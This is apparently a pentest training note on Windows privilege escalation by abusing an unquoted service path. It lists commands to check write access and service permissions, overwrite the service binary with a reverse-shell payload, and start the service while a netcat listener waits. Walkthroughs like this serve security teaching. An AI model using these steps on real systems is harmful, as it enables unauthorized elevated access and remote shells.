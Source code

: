 <figure><img src=".gitbook/assets/image (15) (1) (1).png" alt=""><figcaption><p>1</p></figcaption></figure>

#### A - Let's check if we have "read/write" access to the path.

`.\accesschk.exe /accepteula -uwdq "C:\Program Files\Unquoted Path Service"` - we have "RW" access, meaning we can replace the default service exe with our custom rev shell exe.

<figure><img src=".gitbook/assets/image (16) (1) (1).png" alt=""><figcaption><p>2</p></figcaption></figure>

#### B - Lets check if we have permission to start and stop the  service.

we’ll use this script [Get-ServiceACL](https://rohnspowershellblog.wordpress.com/2013/03/19/viewing-service-acls/) to check if we have permission to start and stop the service.

`"<service_name>" | Get-ServiceAcl | select -ExpandProperty Access` .



Copy the reverse.exe payload to the file path.

`copy reverse.exe "C:\Program Files\Unquoted Path Service\common.exe"` - copy and replace it with "common.exe"

<figure><img src=".gitbook/assets/image (17) (1) (1).png" alt=""><figcaption><p>3</p></figcaption></figure>

Start nc listener and start the service -> `net start unquotedsvc` .

<figure><img src=".gitbook/assets/image (18) (1) (1).png" alt=""><figcaption><p>4</p></figcaption></figure>
